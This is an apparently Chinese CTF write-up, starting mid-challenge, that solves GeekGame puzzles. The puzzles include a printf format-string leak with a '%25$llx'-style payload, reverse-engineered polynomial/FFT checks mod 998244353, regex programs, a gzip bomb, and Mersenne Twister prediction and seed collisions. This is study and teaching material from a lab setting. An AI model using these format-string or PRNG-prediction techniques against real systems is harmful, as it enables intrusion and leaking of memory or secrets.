我们看到`end=17,a=6,e=3,i=1,o=6`，end正好是字母的次数+1(`}`也算一次)，那我们猜测这就是字母的个数分布了，然后就是写个程序暴力枚举，最后得到确实只有一个解，于是flag就是：

```plaintext
flag{OOAAAAEAEIEAOOOO}
```

~~我超，brain power~~

~~我超，我怎么又是校内一血~~ ~~疑似有点出息了😋~~


## 初学C语言

### flag1

ICS知识还给老师了(x)，反正就把栈上的东西嗯爆出来就是了。看了一眼程序，原本用的gets变成了fgets貌似没那么好爆，那大概和attacklab不是一个思路。但是printf或许有点说法，我们搜索`printf stack overflow`找到一个叫做`format string attack`的漏洞，大概就是printf不会检查他实际参数的个数，如果你格式串的参数个数大于实际参数个数，printf就会假装他有这么多参数，在栈上往上访问到一个被printf认为是他的参数，但实际上不属于printf的内存。然后printf的格式串还可以直接指定引用的是第几个参数，我们可以构造以下payload:

```cpp
%s %llx %25$llx
```

其中25代表printf的”第25个参数“，并且25可以换成其他的任意数。我们手动枚举一下，发现26~29的东西或许比较有用：

```plaintext

Please input your instruction:
%s %llx %29$llx
a_public_string deadbeef a7d797a34655f

Please input your instruction:
%s %llx %28$llx
a_public_string deadbeef 6f735f656430635f

Please input your instruction:
%s %llx %27$llx
a_public_string deadbeef 66544e3152505f44

Please input your instruction:
%s %llx %26$llx
a_public_string deadbeef 3465527b67616c66
```

从序号从小到大把他拼成16进制串`0a7d797a34655f6f735f656430635f66544e3152505f443465527b67616c66`，去掉开头的0a，可以看得出来这是ascii码串，再把它转化成对应的字符串，得到我们的flag1：

```plaintext
flag{Re4D_PR1NTf_c0de_so_e4zy}
```


flag2卡在这里了，这我看不到源代码想不明白这flag2咋操作的，不会惹。


## 绝妙的多项式

> 好消息：今年学会用IDA了
>
> 坏消息：不会反编译到c
>
> 于是把IDA用成了能显示程序块和跳转关系的高级一点的objdump(x)
>
> 用了十几张草稿纸嗯推汇编，感觉自己要长脑子了（错乱）

因为直接放汇编代码不是很直观，下面放的是手推出来的、功能上相同的C代码。

### flag1

flag1的代码大致如下：

```cpp
string input;
cin >> input;
int n = input.length();
assert(n == 0x24);
int *M = malloc(4 * n);
for(int i = 0;i < n;i++) {
    int tmp;
    mint::mint(&tmp, input[i]);
    M[i] = tmp;
}
for(int j = 1;j <= n;j++) {
    int a = 1, b = 0, c = 0;
    for(;c < n;c++) {
        int r = mint::operator*(&M[c], b);
        mint::operator+=(&a, r);
        int d;
        mint::mint(&d, j);
        mint::operator*=(&b, d);
    }
    assert(arr[j - 1] == a);
}
```

可以从符号名看的出来，`mint`应该是一个类的名字，然后看他和`int`无缝兼容x的样子，我们可以猜测`mint`的成员就是一个`int`，他的作用就是在`int`型的基础上重载他的operator。那关键在于他是如何重载operator的，~~可能有聪明的小伙伴已经猜到了答案但是先别急，~~我们看一下`mint::operator+`函数的汇编：


看看对应的c代码(类型先全都标成`int`)：

```cpp
int mint::operator+(int *a, int b) {
	int c = a + b;
    if(c > 0x3B800000) c -= 0x3B800001;
    return c;
}
```

嗯？好像更熟悉了，不确定，再看看。我们看看这个`0x3B800001`是个啥：

```bash
>>> 0x3B800001                                                                             998244353    
```

我超，典中典模数。这不就是模998244353意义下的加法吗？那该不会这个mint定义的就是模998244353上的运算吧？

……还真是……

我们重新整理一下flag1的代码：

```cpp
string input;
cin >> input;
int n = input.length();
assert(n == 0x24);

mint *M = malloc(4 * n);
for(int i = 0;i < n;i++) {
    M[i] = input[i];
}
for(int j = 1;j <= n;j++) {
    mint a = 1, b = 0;
    int c = 0;
    for(;c < n;c++) {
        a += M[c] * b;
        b *= (mint)j;
    }
    assert(arr[j - 1] == a);
}
```

这里的限制相当于在模意义下解
$$
\begin{pmatrix}
1^1 & 1^2 & \cdots & 1^n \\ 
2^1 & 2^2 & \cdots & 2^n \\ 
\cdots &  &  & \cdots \\ 
n^1 & n^2 & \cdots & n^n
\end{pmatrix} \operatorname{input} = \operatorname{arr}
$$
，这就要用到高斯消元法。用模意义下的高斯消元法，我们解得flag为：

```plaintext
flag{yoU_Are_THE_mA$T3r_of_l@gR4nGe}
```

### flag2

由以上的经验我们直接整理出以下关键代码：

```cpp
string input; cin >> input; int n = input.length();
assert(n == 45);
mint *M = malloc(64 * 4);
for(int i = 0;i < 45;i++) M[i] = input[i];
for(int i = 32;i >= 1;i >>= 1) {
    for(int j = 0;j < m;j += 2i) {
        for(int k = 0;k < i;k++) {
            mint r = M[j + k], s = M[i + j + k];
            M[j + k] = s + r;
            M[i + j + k] = (r - s) * B[i + k];
        }
    }
}
for(int i = 0;i < 64;i++) assert(M[i] == A[i]);
```

这个看上去非常具有分治美感的东西勾起了我的既视感，但好像这道题直接求逆操作就好了，因为他给的B都是有模意义下的逆元的，所以我们直接反过来做一遍，如`flag2.cpp`，得到了flag：

```plaintext
flag{yOU_kN0w_wH47_1S_f4$t_fOuRiEr_7r4n$F0RM}
```

我去，FFT！怪不得嫩熟悉。

### flag3

接着进行一个人肉的反编译，但感觉有点恶心了：

```cpp
string input; cin >> input; int n = input.length();
assert(n == 40);
int m = 64;
mint *M1 = malloc(2 * m * 4), *M2 = malloc(2 * m * 4);
for(int i = 0;i < n;i++) M1[i] = input[i];
for(int j = 0;j < n;j++) M2[j] = A[phi(j)]; // ?
Fun1(M1, 128); Fun1(M2, 128);
for(int i = 0;i < 128;i++) M1[i] *= M2[i];
Func2(M1, 128);
for(int i = 0;i < 64;i++) assert(M1[i] == G[i]);
```

里面那个`phi`	其实是一系列的汇编操作，应该是将j映射到一个<128的整数，当时精神状态爆炸了所以就不管他了，但好像确实没必要管，gdb在这句后面打个断点看看里面存了啥就是了。

然后这里的`Fun1`函数其实就是flag2中的fft变换，然后我们看看`Func2`：

```cpp
void Func2(mint* M, int m) {
    // ... what looks like part of ifft()
    mint t = ???;
    std::reverse(&M[1], &M[m]);
    for(int i = 0;i < 128;i++) M[i] *= T;
}
```

由于我们只能确认结果的前64个值，所以像刚才那样的直接逆操作是做不了的，我们必须思考一下他的运算的性质。

我们发现他在Func2的reverse之前，做的实际上是计算`ifft(fft(M1) * fft(M2))`，上学期学过的工程数学的仅剩的记忆告诉我们：这样的操作其实等价于在算M1和M2的卷积。具体是怎么卷的呢？

我们写个程序测试一下，发现对输入`M1={1,1,1,1},M2={1,2,3,4}`，可以看到`part_ifft(fft(M1) * fft(M2))`结果为`{128,0,...,0,512,896,1152,1280,768,384}`，把他进行`reverse(&M[1],&M[m])`，再`/=128`,就是`{1,3,6,10,9,7,4}`，而这就是M1和M2的卷积！所以我们有:

$M_1 \ast M_2 [0:64]  \cdot 128 \equiv G \cdot t \mod 998244353$

这可以转化成方程组然后像flag1一般解决。

最后一个关键的问题是怎么求t，汇编如下：

```assembly
mov     eax, 0C4800000h
cdq
idiv    dword ptr [rbp-4Ch]
lea     edx, [rax+3B800001h]
```

我一开始认为是

```cpp
int t = 998244353 + 0x0C480000 / 128;
```

但是解出来的东西显然不对，自闭了很久的我以为是代码逻辑有问题，check了好久，最后蚌埠住了，直接用gdb把这个值拉了出来，解得flag3：

```plaintext
flag{Welcome_t0_7hE_WorlD_Of_Po1YNoMi@l}
```

> 做完感觉整个人都飘起来了😇哎呀米诺


## 关键词过滤喵，谢谢喵

> 查询出题人精神状态x
>
> 看皮套人看的 (顶着这个b id说这话完全没有说服力x)

> 从文件的变量命名可以看得出来精神不正常的大概是我x 但是看到那个”别急急急急急急喵“确实能让我急了😡喵喵喵，喵糯米糍粑😡😡😡

因为程序太长就不贴完整版了。

### flag1

思路是和十进制法表示数字类似，但个十百千万用不同的emoji表示。

我们先把所有字符变成🐶，然后我们一步步把10个🐶凑成代表十的emoji，以此类推。我们假设长度不超过9999999，那么就需要7个emoji。然后我们根据emoji的个数在后面加数字：

```plaintext
  如果看到【😘】就跳转到【有😘】喵
  如果看到【.*】就跳转到【😘加0】喵
有😘：
  如果看到【😘😘😘😘😘😘😘😘😘】就跳转到【😘加9】喵
  如果看到【😘😘😘😘😘😘😘😘】就跳转到【😘加8】喵
  ... ...
😘加9：
  把【^(.*)$】替换成【\1q】喵
  如果看到【.*】就跳转到【😘好了】喵
  ... ...
😘加0：
  把【^(.*)$】替换成【\1f】喵
  如果看到【.*】就跳转到【😘好了】喵
😘好了：
```

（为什么我们不在后面加9,...,0而是加q,...,d这样的字母？因为加数字的话可能会被认为和前面的1组成一个两位数，被正则识别成”第10个参数“这样）

最后去掉前导0即可，得到flag：

```plaintext
flag{W0w_yOU_C4n_rEal1y_REGex}
```

### flag2

我们先把换行符替换成🐴，然后前面加🐴后面加🤡，这样每两个🐴之间就是一行，去除重复🐴就能让每两个🐴之间是一个空行，像这个样子：

```plaintext
🐴a🐴bb🐴ccc🐴🤡
```

这下我们可以用🐴取字符串，接下来就是比较两个字符串的长度。我一开始想得是冒泡排序，但这样又丑陋又长跑得又慢，我现在怀疑我当时脑子进水了。（事实上我写了，跑了，但是TLE了，sosad）

仔细一想我们可以用计数排序，在每个非emoji后面加个😅，每次用：

```plaintext
把【😅([^🐴😅]*)🐴】替换成【\1🐴】喵
```

这个能删除每个`🐴...🐴`中的一个😅，然后我们从左到右重复把🤡左边没有😅的字符串移到右边：

```plaintext
重复把【^(.*)🐴([^😅🐴]+)🐴(.*)$】替换成【\1🐴🐴\3🐶\2】喵
```

这里体现出我们用🤡的意义：将输入和输出隔开。右边的🐶起到分隔输出的作用，最后我们删去🤡，将🐶替换成换行符即可，得到flag2：

```plaintext
flag{caN_C4n_NEEd_Show_sH0w_Way}
```

### flag3

> 调了嫩久，但是最后发现还是自己啥b了。

首先我们去除<>\+-.[]以外的所有字符。接下来我们把这个字符串替换成`🐶T😡T🐱😅\1🐭`。

这个字符串代表了当前机器的运行状态：

```plaintext
(1)	🐶  (2)  😡  (2)  🐱 (3) 😅 (3) 🐭 (4)
```

其中🐶🐱🐭将串分成了4个区域：

(1) 栈区， 用于跳转括号。这里有多少个😭代表了还需要找到多少个异种括号才能停下来。

(2) 内存区，每个内存单元将一个字节表示成xaa~xpp，对应规则是`mem = "x" + ('a' + val / 16) + ('a' + val % 16)`（不包含数字的原因在flag1中提到了）。😡是内存区指针，他指向他右边的那个内存单元。

(3) 代码区，😅是代码区指针，代表正好刚执行完他左边的所有代码。

(4) 输出区。

实现就不再赘述，可以见`flag3_prog.py`。

但是有几个犯错的点需要记录一下：

1. 字符转义，正则里面的转义在搜索的时候要加`\`但是替换的时候不用，但是`\`字符本身的转义除外。
2. 括号需要匹配，不是直接找他左/右边第一个。
3. 我的实现中为了进位，采用了如下操作：

```plaintext
  把【😡x(.)a】替换成【😡y\1b】喵
  ... ...
  把【😡x(.)p】替换成【😡y\1q】喵
  把【😡yaq】替换成【😡zba】喵
  ... ...
  把【😡ypq】替换成【😡zaa】喵
  把【[yz]】替换成【x】喵
```

这样会导致右边输出部分的y或z字符被替换掉，所以要用别的字符代替y和z在这里的角色。

于是我们得到flag3：

```plaintext
flag{wE1c0me_to_THe_MInd_fucK}
```


## 未来磁盘

### flag1

原压缩包66.7KB，解压一次得到11.2MB的包，再解压一次得到7个G的包，应该再解压就是原数据了。原本因为电脑性能太拉觉得解不出来，但是第二阶段啥题都不会做了，要不顺便解个包试试，~~反正只要8小时。~~

我们需要在这个数据流里面扔掉多余的前置0，找到第一个非0字符，读到再次出现0结束。

new bing教我gzip后面接管道，然而我跑到一半不知道为啥程序爆了。但我又不会别的命令，就只能自己拿C++写个凑合一下了。如`pip.c`所示。从23点跑到第二天3点半~~（没睡着起床看到的）~~，跑出了大家想看的flag：

```plaintext
flag{m0re_GZIP_fi1e_b0mB}
```


## 小章鱼的曲奇

### flag1

他输出了一个长度为5058的16进制字串，这也表示了一个长度为2529的字节串。

观察源代码我们知道，他是把2500个`0x00`和flag1的字符串对应的二进制串拼在一起（这也说明了flag长度29），然后和一个`random.Random`对象生成的等长随机byte串异或得到的。由于输出串的前2500个字节其实就是`Random`生成的随机串，这提示我们应该爆破`Random`的伪随机数生成算法，也就是梅森旋转算法。经过搜索我们知道`random.Random`是以32位随机数为一个生成的单位，然后只要知道他输出的624个32位数，就能预测接下来的序列。现在我们正好有625个32位数。我们可以用库`rankcrack`完成这一操作，代码见`flag1.py`，我们可以知道flag为：

```plaintext
flag{RAnd0M_1s_eZ_2_pRED1cT}
```

### flag2

现在他的输出在flag1的基础上还和其他两个随机数生成器生成的随机串进行了异或，其中一个随机数生成器的种子`seed1`是他给出的，另一个随机数的种子`seed2`由我们指定。而且需要`seed1 != seed2`。

如果我们能对任意一个给定的`seed`，都能快速找到另一个不同的`seed`使得这两个随机数生成器生成相同的数，那我们就能把问题转化成flag1。我搜索了`MT19937 seed collision`，但是似乎没啥好的结果，那我只能去审计源代码，在[https://github.com/python/cpython/blob/5e7727b05232b43589d177c15263d7f4f8c584a0/Lib/random.py#L110](https://github.com/python/cpython/blob/5e7727b05232b43589d177c15263d7f4f8c584a0/Lib/random.py#L110)我们可以知道`random.Random`是继承了`_random.Random`，而`_random`的代码在[https://github.com/python/cpython/blob/5e7727b05232b43589d177c15263d7f4f8c584a0/Modules/_randommodule.c#L125](https://github.com/python/cpython/blob/5e7727b05232b43589d177c15263d7f4f8c584a0/Modules/_randommodule.c#L125)，在Line 306我们找到以下注释：

```c
    /* This algorithm relies on the number being unsigned.
     * So: if the arg is a PyLong, use its absolute value.
     * Otherwise use its hash value, cast to unsigned.
     */
```

原来他会对负的种子取绝对值，那么有一个猜想，我们把他给的`seed1`直接加个负号作为`seed2`，是否就能获得同样效果的随机数生成器？试了一下，然后把`flag1.py`改了一下就成了`flag2.py`，然后跑出来flag：

```python
flag{crafT1ng_sEED_cAn_b3_FuUun}
```

...啊？我写完了？

### flag3

代码逻辑是他生成100个seed并输出seed，然后你要在10秒内对应给出100个seed，使每组seed生成一样的随机数序列。负号暂且不提，这次代码里甚至没有判重，那我疑似只要把他给的seed直接发回去就...：

```plaintext
flag{pYthOn_RAnd0M_sOo000oO0oOoO0OooO000_easY}
```

啊？啊？？啊？？？


## 写在最后

~~一些废话~~

没想到一眨眼已经变成三年老选手了。还记得第一届的时候被安利了GeekGame，虽然当时完全是0基础，但也玩的很开心~~一不小心捞了个3=~~。当时“叶子的新歌”这道题给我留下了很深的印象，我一直很喜欢那道题（向出题的MaxXing老师致敬），而那道题也让我把这场原本想要随便打打的比赛坚持着打完了。结果一下子就入坑了（笑）

GeekGame是我唯一接触过的CTF比赛，从一个划水选手的角度来看，感觉CTF和别的（比如OI）的比赛还是挺有区别的，不仅要有超大的脑洞，还要有较强的信息检索能力和快速学习新信息的能力。感觉比起做题更像是解谜（笑）是很有趣的体验。

~~前两年因为实力有限只拿了3=~~，今年比较闲，就尝试着All in了一把~~不小心通了几个宵~~，拿到了令自己感到意外的排名。见证了自己的微小的成长，真的是挺令人高兴的事。

榜上还有许多id很熟悉的老哥，每年都能见到他们，感觉他们都强的离谱😳~~怎么什么b题都会做~~。感觉每年能够读他们的Writeup，从里面get一些idea，也是一件非常有收获的事。

最后希望GeekGame越办越好，他真的给了我很快乐的参赛体验，我也希望接下来还能看到更多更有趣的题目。**一生、GeekGameしでくれる**😭😭😭


> 关注 [@雫るる_Official](https://space.bilibili.com/387636363)谢谢喵~

